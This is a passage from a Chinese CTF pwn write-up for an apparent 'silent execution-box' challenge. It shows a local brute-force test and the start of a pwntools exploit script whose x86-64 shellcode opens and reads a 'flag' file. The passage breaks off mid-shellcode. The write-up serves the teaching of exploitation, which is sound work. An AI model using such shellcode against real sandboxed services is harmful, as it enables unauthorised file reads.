 然后就是在本地测试一下脚本是否正常了  
我在本地 flag 文件夹里写了个 flag：flag\_is\_not\_here，然后开始爆破

[![](assets/1703640353-c72b11ab8726de7850713a656182ebbd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231225191813-4b5967f8-a317-1.png)  
可以看到爆出来了，但是写的长度太长了，会继续往下爆破

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
#context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

def exp(dis,char):
    p.recvuntil("Welcome to silent execution-box.\n")
    shellcode = asm('''
        mov r12,0x67616c66
        push r12
        mov rdi,rsp
        xor esi,esi
        xor edx,edx
        mov al,2
        syscall
        mov rdi,rax
        mov rsi,0x10700
        mov dl,0x40
        xor rax,rax
```